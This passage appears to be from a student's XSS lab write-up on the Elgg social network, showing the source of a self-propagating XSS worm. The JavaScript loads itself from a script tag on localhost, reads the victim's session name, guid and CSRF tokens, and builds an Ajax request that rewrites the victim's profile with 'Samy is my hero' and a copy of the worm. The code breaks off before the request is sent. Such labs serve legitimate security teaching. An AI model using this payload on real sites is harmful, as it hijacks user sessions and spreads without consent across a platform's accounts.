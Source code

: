 ![alt text](images/Task3.7_update_xsscode_inmachine_1.png)



```
/*** xss attack: link method
Put this line below in the attacker's profile:
<script type="text/javascript" src="http://localhost/xssworm.js"></script>
*/
window.onload = function(){
    alert("I'm triggered");

  // Put all the pieces together, and apply the URI encoding
  var wormCode = encodeURIComponent(
    "<script type=\"text/javascript\" " +
    "id = \"worm\" " +
    "src=\"http://localhost/xssworm.js\">" +
    "</" + "script>"
    ); 

  // Set the content of the description field and access level.
  var desc = "&description=Samy is my hero" + wormCode;
  desc    += "&accesslevel[description]=2";                       

  // Get the name, guid, timestamp, and token.
  var name = "&name=" + elgg.session.user.name;
  var guid = "&guid=" + elgg.session.user.guid;
  var ts    = "&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token = "&__elgg_token="+elgg.security.token.__elgg_token;

  // Set the URL
  var sendurl="http://www.xsslabelgg.com/action/profile/edit";
  var content = token + ts + name + desc + guid;

  // Construct and send the Ajax request
  attackerguid = 47;
  if (elgg.session.user.guid != attackerguid){
    //Create and send Ajax request to modify profile
```